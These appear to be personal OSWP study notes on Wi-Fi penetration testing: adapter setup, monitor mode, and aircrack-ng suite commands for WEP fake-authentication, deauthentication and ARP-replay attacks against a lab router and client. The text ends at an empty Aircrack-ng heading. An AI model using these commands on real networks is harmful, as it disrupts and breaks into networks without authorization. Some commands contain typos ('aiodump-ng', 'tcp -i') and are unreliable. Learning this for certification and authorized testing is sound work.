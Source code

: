 # OSWP notes

## Setting up

### Wireless ALFA AWUS036NH

[https://medium.com/@adam.toscher/configure-your-new-wireless-ac-1fb65c6ada57](https://medium.com/@adam.toscher/configure-your-new-wireless-ac-1fb65c6ada57)

After plugin usb wireless adapter\) ALFA AWUS036NH

```bash
# list usb device check that device is detected 
lsusb
# Bus 002 Device 028: ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter

# install drivers
apt-get install realtek-rtl88xxau-dkms

# Unload current driver
rmmod r8187

# load new driver
modprobe r8187

# verifiy that driver is loaded correctly
iwconfig
```

### Basic iw usage

```bash
# wlan1     IEEE 802.11  ESSID:off/any  
#          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
#          Retry short  long limit:2   RTS thr:off   Fragment thr:off
#          Encryption key:off
#          Power Management:off

# detail informtion of wireless interface
iw list

# list of SSID in range
iw dev wlan1 scan|grep SSID
#wlan1     14 channels in total; available frequencies :
#          Channel 01 : 2.412 GHz
#          Channel 02 : 2.417 GHz
#          Channel 03 : 2.422 GHz
#          Channel 04 : 2.427 GHz
#          Channel 05 : 2.432 GHz


# list of SSID frequency
iwlist wlan1 frequency
#wlan1     14 channels in total; available frequencies :
#          Channel 01 : 2.412 GHz
#          Channel 02 : 2.417 GHz
#          Channel 03 : 2.422 GHz
#          Channel 04 : 2.427 GHz
#          Channel 05 : 2.432 GHz

# list what channel AP points are transmitting on - useful for filtering background noise used later
iw dev wlan1 scan | egrep "DS\ Parameter\ set|SSID"

#Setting wireless in monitor mode
iw dev wlan1 interface add mon0 type monitor
ifconfig mon0 up
iwconfig
# mon0     IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
#          Retry short  long limit:2   RTS thr:off   Fragment thr:off
#          Power Management:off
tcp -i mon0 -s 65000 -p
#delete interface
iw dev mon0 interface del
iwconfig
```

### IEEE wireless device

```bash
#to find out currently loaded wlan
lspci
#0c:00.0 Network controller: Intel Corporation PRO/Wireless 
lspci -vv -s 0c:00.0
#        Kernel driver in use: r8169
#        Kernel modules: r8169

# get a list of ESSID
iwlist wlan0 scanning | egrep "ESSID|Channel"

#monitor on channel 3
iwconfig wlan0 mode monitor channel 3
iwconfig wlan0 mode managed
```

## Airmon-ng

```bash
# check process that may interfere with airmon-ng
airmon-ng check 

# kill all interfering processes
airmon-ng check kill

# monitor mode
airmon-ng start wlan0

airmon-ng stop mon0

# set airmon-ng on listening mode on channel 3
airmon-ng start wlan0 3

iwlist mon0 channel
```

## Airodump-ng

```bash
# start wlan0 in monitor mode first
airmon-ng start wlan0

# start monitoring
airodump-ng mon0
#CH 10 ][ Elapsed: 0 s ][ 2020-11-11 15:40                                                                        
#                                                                                    #                              
# BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                  
#                                                                                                                  
# CC:22:3d:AF:AA:67  -55        1        1    0   9  270   WPA2 CCMP   PSK  Mkpg                                   



#sniffing the traffic
airodump-ng -c <channel> --bssid <bssid>
airodump-ng -c <channel> --essid <SSID name> -w <capture_file_name> mon0
```

## Aireplay-ng

for replay attacks

```bash
# first put wlan0 in monitor mode eg. airmon-ng start wlan0
# injection test 
aireplay-ng -9 mon0

# card to card injection test - tests if we can perform air replay with the card
# aireplay-ng -9 -i <transmitter> <receiving_card>
aireplay-ng -9 -i wlan1 mon0
```

## Cracking WEP

### Fake authentication attack \(MAC association\)

* On router running with WEP encryption and transmit in channel 3
* On Kali

  ```bash
  # start monitor in channel 3
  airmon-ng start wlan0 3

  # save capture file to disk - breaking it later (let it run)
  aiodump-ng -c 3 --essid <SSID NAME> -w wepfile1 mon0

  # perform fake authentication attack - on new terminal
  ## Authenticate my mac address to accesspoint (else traffic will be rejected)
  # -1 fake auth attack
  # 0 association timing in seconds
  aireplay-ng -1 0 -e <essid> -a <mac_addr> -h <own-mac> mon0


  # view the packets (total 4 of them in the fake authentication of mac to accesspoint)
  wireshark wepfile1
  ```

  In a possible attack scenario, where an AP has MAC address filtering. We need to first obtain a valid mac address of a client, then wait until the client is no longer on the network and impersonate the client by performing fake authentication attack to associate our attacking machine with the victim access point.

### De-authentication attack

Forcing the client to disconnect

* On Attacker start monitor mode and write to file 

```bash
aiodump-ng -c 3 --essid <SSID NAME> -w wepfile1 mon0
```

* connect to victim via vncviewer \(win xp\)
* On client machine \(Client winxp has 1 wired interface, 1 wireless interface\). Ping wireless router indefinitely
* On Kali

```bash
#-0 deauth attack
#1 number of deauth attack packet to send 
aireplay-ng -0 1 -a <AP-mac-addr> -c <Victim-mac-addr> mon0

# On Client machine, observe that continuous ping is broken suddenly (the client has de-authenticated and tries to re-connect. In this process, the process is being monitored by our )

# view the packets (total 4 of them in the fake authentication of mac to accesspoint)
wireshark wepfile1
```

By capturing these arp packets, an attacker is able to use this to generate a large number of weak IV - subsequently able to crack the password

### Arp replay request attack

Listens for an arp request packet, and retransmit it back to the AP. So that AP repeats with new IV - collecting so many that we can finally crack it with aircrack-ng.

* On Attacker start monitor mode and write to file

```bash
aiodump-ng -c 3 --essid <SSID NAME> -w wepfile1 mon0

#(bug that need to run this before we perform the arp reply request attack)
aireplay-ng -1 0 -e <essid> -a <mac_addr> -h <own-mac> mon0

# and let it wait how many IV it is captured
aireplay-ng -3 -b <AP-mac-addr> -h <our-mac> mon0


# if this is taking too long to captured more packets
#On new terminal send a deauth attack packet
aireplay-ng -0 1 -a <AP-mac-addr> -c <client-mac-addr> mon0
```

## Aircrack-ng

